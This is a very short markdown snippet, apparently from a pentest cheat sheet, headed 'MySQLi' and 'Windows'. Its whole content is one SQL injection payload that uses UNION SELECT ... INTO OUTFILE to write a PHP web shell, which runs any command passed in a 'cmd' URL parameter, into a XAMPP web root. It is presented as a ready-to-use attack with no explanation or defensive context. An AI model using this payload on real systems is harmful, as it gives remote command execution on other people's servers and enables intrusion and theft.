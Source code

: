 # MySQLi

Windows

```bash
' union select ("<?php echo passthru($_GET['cmd']);") into outfile 'C:/xampp/htdocs/cmd.php
```